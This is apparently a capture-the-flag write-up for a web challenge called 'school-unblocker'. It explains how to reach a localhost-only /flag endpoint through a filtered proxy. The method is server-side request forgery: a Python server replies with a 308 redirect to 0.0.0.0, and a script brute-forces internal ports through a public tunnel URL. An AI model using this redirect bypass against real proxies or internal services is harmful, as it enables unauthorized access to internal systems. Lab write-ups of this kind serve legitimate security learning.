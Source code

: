 #### How to solve

The easiest thing that I came to think when reading the source is: we can access `/flag` with the help of proxy that is available in `/proxy`.

But after reading the code, there seems a filter and condition that make this thing harder todo.

1. at /proxy endpoint we must specify a public ipv4
2. at /flag, we have to access it as a localhost (127.0.0.1), if not, we can't get the access

so with this condition is not easy task to just input `https://school-unblocker.web.actf.co/flag` or `127.0.0.1/flag` because those filtering, so we have to think another way to make it happen.

***

I got an idea to use redirect the request into another endpoint. First we have to supply the correct format for /proxy endpoint that is to supply public correct ipv4 url, then this fake server will listen, and send a response 308 to redirect to 0.0.0.0/flag so that the proxy will act behalf on this fake server.

***

this code is for fake server forwarder

```python
# forwarder.py
import http.server

class handler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        self.send_response(308)
        self.send_header("Location", f"http://0.0.0.0:{self.path[1:]}/flag")
        self.end_headers()

with http.server.HTTPServer(("", 4444), handler) as server:
    server.serve_forever()
```

```python
# solve.py
import requests

url = "https://school-unblocker.web.actf.co/proxy"

# this is just a guess of the port used by the app
# it may be greater than 9000
port = 9000

while True:
    try:
        res = requests.post(url, data={"url": f"https://364c00d60af4b9.lhrtunnel.link/{port}"}) # redirect server
        text = res.text
        print(f"[{port}]\n{text}\n")
    except KeyboardInterrupt:
        exit()
    except:
        print(f"[{port}] error")
    finally:
        # you can customize the range really
        if port < 0:
            break
        port -= 1
```
